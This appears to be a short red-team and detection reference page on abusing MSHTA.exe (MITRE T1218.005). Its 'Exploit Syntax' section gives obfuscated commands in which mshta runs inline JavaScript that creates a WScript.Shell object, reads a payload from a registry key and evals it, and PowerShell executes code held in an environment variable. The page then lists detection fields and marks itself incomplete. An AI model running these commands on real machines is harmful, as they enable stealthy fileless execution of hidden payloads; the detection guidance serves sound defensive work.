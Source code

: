 # [MSHTA.exe](https://attack.mitre.org/techniques/T1218/005/)

## Exploit Syntax:[incomplete] 


1. Execute the following commands: 

```powershell
sharpps "c:\windows\system32\mshta.exe" javascript:bz0pbzykh="qoethfr1";jo9=new%20activexobject("wscript.shell"); tkk4qffrj="wrqxzpuvp";zv0v5w=jo9.regread("hklm\\software\\wow6432node\\88b21b0b\\7f490d53");v9tjbmpoy="nwzv9xiv";eval(zv0v5w);wqfccxdq4="u";


sharpps "c:\windows\syswow64\windowspowershell\v1.0\powershell.exe" iex $env:veckxeg

```



## Detection Technique

* Investigate any instances of mshta.exe, if it is common, investigate mshta.exe interacting with the compromised machine itself.
    * process.name: mshta.exe
    * Network Connection: Outbound
    * Event.Action: Process Create
    * Event.Type: start, process start
    * Winlog.task: File Creation
    * 

## Resources 
* https://redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/
* https://lolbas-project.github.io/lolbas/Binaries/Mshta/
